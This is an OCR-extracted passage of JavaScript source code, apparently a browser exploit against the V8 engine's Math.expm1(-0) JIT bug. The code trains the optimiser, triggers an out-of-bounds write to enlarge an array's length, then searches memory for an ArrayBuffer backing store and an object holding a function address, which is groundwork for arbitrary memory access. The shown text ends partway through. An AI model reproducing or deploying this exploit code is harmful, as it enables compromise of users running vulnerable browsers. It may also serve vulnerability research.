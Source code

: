 ```plain
    var ab = new ArrayBuffer(0x233);
    var data_view = new DataView(ab);

    function opt_me(x) {
        var oob_arr = [1.1, 1.2, 1.3, 1.4, 1.5, 1.6];
        big_arr = [1.1, 1.2];
        ab = new ArrayBuffer(0x233);
        data_view = new DataView(ab);

        let obj = {
            a: -0
        };
        let idx = Object.is(Math.expm1(x), obj.a) * 10;

        var tmp = f2u(oob_arr[idx])[0];
        oob_arr[idx] = u2f(0x234, tmp);
    }
    for (let a = 0; a < 0x1000; a++)
        opt_me(0);

    opt_me(-0);
    var optObj = {
        flag: 0x266,
        funcAddr: opt_me
    };

    log("[+] big_arr.length: " + big_arr.length);

    if (big_arr.length != 282) {
        log("[-] Can not modify big_arr length !");
        return;
    }
    var backing_store_idx = -1;
    var backing_store_in_hign_mem = false;
    var OptObj_idx = -1;
    var OptObj_idx_in_hign_mem = false;

    for (let a = 0; a < 0x100; a++) {
        if (backing_store_idx == -1) {
            if (f2u(big_arr[a])[0] == 0x466) {
                backing_store_in_hign_mem = true;
                backing_store_idx = a;
            } else if (f2u(big_arr[a])[1] == 0x466) {
                backing_store_in_hign_mem = false;
                backing_store_idx = a + 1;
            }
        }

        else if (OptObj_idx == -1) {
            if (f2u(big_arr[a])[0] == 0x4cc) {
                OptObj_idx_in_hign_mem = true;
                OptObj_idx = a;
            } else if (f2u(big_arr[a])[1] == 0x4cc) {
                OptObj_idx_in_hign_mem = false;
                OptObj_idx = a + 1;
            }
        }

    }

    if (backing_store_idx == -1) {
        log("[-] Can not find backing store !");
        return;
```